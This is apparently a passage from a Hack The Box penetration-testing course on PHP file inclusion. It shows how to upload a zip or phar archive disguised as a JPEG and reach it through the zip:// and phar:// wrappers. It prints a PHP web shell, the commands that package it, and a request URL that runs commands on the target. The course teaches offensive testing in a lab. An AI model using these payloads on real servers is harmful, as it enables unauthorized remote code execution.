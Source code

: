 As mentioned earlier, the above technique is very reliable and should work in most cases and with most web frameworks, as long as the vulnerable function allows code execution. There are a couple of other PHP-only techniques that utilize PHP wrappers to achieve the same goal. These techniques may become handy in some specific cases where the above technique does not work.

We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work. To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named `shell.jpg`), as follows:

```shell-session
smoothment@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

**Note:** Even though we named our zip archive as (shell.jpg), some upload forms may still detect our file as a zip archive through content-type tests and disallow its upload, so this attack has a higher chance of working if the upload of zip archives is allowed.

Once we upload the `shell.jpg` archive, we can include it with the `zip` wrapper as (`zip://shell.jpg`), and then refer to any files within it with `#shell.php` (URL encoded). Finally, we can execute commands as we always do with `&cmd=id`, as follows:

   
```
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```
![](https://academy.hackthebox.com/storage/modules/23/data_wrapper_id.png)

As we can see, this method also works in executing commands through zipped PHP scripts.

**Note:** We added the uploads directory (`./profile_images/`) before the file name, as the vulnerable page (`index.php`) is in the main directory.

---

## Phar Upload

Finally, we can use the `phar://` wrapper to achieve a similar result. To do so, we will first write the following PHP script into a `shell.php` file:


```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

This script can be compiled into a `phar` file that when called would write a web shell to a `shell.txt` sub-file, which we can interact with. We can compile it into a `phar` file and rename it to `shell.jpg` as follows:

```shell-session
smoothment@htb[/htb]$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
